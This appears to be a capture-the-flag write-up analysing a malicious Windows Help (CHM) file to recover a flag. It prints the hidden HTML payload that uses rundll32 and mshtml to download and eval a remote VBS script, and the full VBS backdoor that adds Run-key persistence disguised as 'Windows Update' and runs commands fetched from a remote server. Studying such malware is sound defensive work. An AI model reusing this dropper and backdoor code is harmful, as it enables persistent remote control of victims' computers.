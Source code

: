 # CHM

> **Challenge Description:** Help me with this Windows Help file. Our anti-virus has detected this file as a malware. Seriously, it's just a Windows Help file. Analyze and find the flag.
>
> **Flag Format:** `ihack{MD5}`

### Solution

CHM files can be opened and extracted using `hh.exe` in Windows for legitimate use. In this case, extract all the components from the CHM file using `7z`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/CHM]
└─$ 7z e chm.chm 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs Intel(R) Core(TM) i7-9750H CPU @ 2.60GHz (906EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10781 bytes (11 KiB)

Extracting archive: chm.chm
--
Path = chm.chm
Type = Chm
Physical Size = 10781

Would you like to replace the existing file:
  Path:     ./Property
  Size:     4 bytes (1 KiB)
  Modified: 2022-12-01 00:52:05
with the file from archive:
  Path:     $WWAssociativeLinks/Property
  Size:     4 bytes (1 KiB)
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? u

Everything is Ok                     

Folders: 2
Files: 12
Size:       11892
Compressed: 10781
```

The extracted `version.html` contains a embedded payload that references a `.vbs` file from a remote URL.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/CHM]
└─$ cat version.html                                               
<body>
    <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=',cmd.exe,/c copy /Y C:\Windows\system32\rundll32.exe %TEMP%\out.exe > nul && %TEMP%\out.exe javascript:"\..\mshtml RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://139.59.122.20/version.vbs",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im out.exe",0,true);}'>
        <PARAM name="Item2" value="273,1,1">
      </OBJECT>
      <SCRIPT>
        x.Click();
      </SCRIPT> 
</body>
</html>  
```

Continue analyzing `version.vbs` to retrieve the 2nd portion of the flag. Also, notice that `version.txt` is fetched remotely.

```vbs
Option Explicit
On Error Resume Next
Const tail = "7866c99c63a26b4886"
Const test = "122.20/"
Set oFileSystem = CreateObject("Scripting.FileSystemObject")
Set WshShell = CreateObject("WScript.Shell")
Const close = "}"
Const versionfile = "version.txt"
app_data = WshShell.ExpandEnvironmentStrings("%APPDATA%")
full_install = app_data & "\ihack.vbs"
If Not oFileSystem.FileExists(full_install) Then
        oFileSystem.CopyFile WScript.ScriptFullName, full_install
        WshShell.RegWrite "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows Update", full_install, "REG_SZ"
        Set rs_map = oFileSystem.GetFile(full_install)
        rs_map.Attributes = 2
End If
Const server = "http://139.59." & test & versionfile
done = False
Do Until done
        Set XMLHTTP = CreateObject("MSXML2.XMLHTTP.3.0")
        XMLHTTP.open "GET", server, False
        XMLHTTP.send
        command = XMLHTTP.responseText
        WshShell.Run "cmd /c " & command, 0, True
        MsgBox("Your computer has been compromised by iHack team. You can exit this msgbox in your Task Manager.")
        If InStr(command, "iha") Then
                dim sec = command & tail & close
        Else InStr(command, "EXIT") Then
                done = True
        End If
        If InStr(command, "REMOVE") Then
                WshShell.RegDelete "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Windows Update"
                Set delete_me = oFileSystem.CreateTextFile(oFileSystem.GetSpecialFolder(2) & "\romcs.bat")
                delete_me.WriteLine("@echo off")
                delete_me.WriteLine("timeout 10")
                delete_me.Close()
                WshShell.Run oFileSystem.GetSpecialFolder(2) & "\romcs.bat"
                done = True
        Else
                WshShell.Run "cmd /c " & command, 0, True
        End If
        WScript.Sleep(15000)
Loop
```

`version.txt` contains the first portion of the flag.

```
ipconfig
net user
arp -a
net localgroup administrators
ihack{6e5e4d1b1805aa
```

**Flag:** `ihack{6e5e4d1b1805aa7866c99c63a26b4886}`
